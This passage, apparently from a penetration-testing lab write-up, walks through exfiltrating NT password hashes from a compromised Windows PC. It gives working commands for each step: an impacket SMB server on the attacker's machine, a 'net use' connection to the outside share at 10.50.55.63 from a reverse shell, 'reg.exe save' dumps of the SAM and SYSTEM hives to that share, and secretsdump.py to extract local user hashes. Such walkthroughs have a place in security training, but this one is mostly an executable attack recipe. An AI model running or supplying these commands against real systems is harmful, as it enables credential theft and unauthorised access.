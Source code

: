 
## 9.0 Exfiltrating NT hashes

Now that we are in the Personal PC as System. We can exfiltrate the SAM hashes with impacket. To accomplish this, we need to setup a SMB server on our own attacking machine and connect to it.

SMB server using the impacket python script:

```csharp
sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
```

- We made a smbserver with smb2 support with the name “share” and the credentials user:s3cureP@ssword

Lets connect to it trough our reverse system shell:

```csharp
net use \\10.50.55.63\share /USER:user s3cureP@ssword
```

![Untitled](Personal%20P%20ec072/Untitled%2023.png)

- As you can see, we successfully connected to our smb server. We can now go ahead and copy any file to our own attacking machine.

We specifically are interested in the **sam.bak** and the **system.bak** files. Which are located in the SAM Hive of a windows pc. We can save these files trough reg.exe on our attacking machine like so:

```csharp
reg.exe save HKLM\SYSTEM \\10.50.55.63\share\system.bak
```

And

```csharp
reg.exe save HKLM\SAM \\10.50.55.63\share\sam.bak
```

- Notice we are using reg.exe here to save the files to our SMB share, which we connected to earlier.

I used the /opt/impacket/examples/secretsdump.py Python script to dump the hashes of the local users:

```csharp
python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

- sam.bak and system.bak are now locally saved on my attacking machine

![Untitled](Personal%20P%20ec072/Untitled%2024.png)
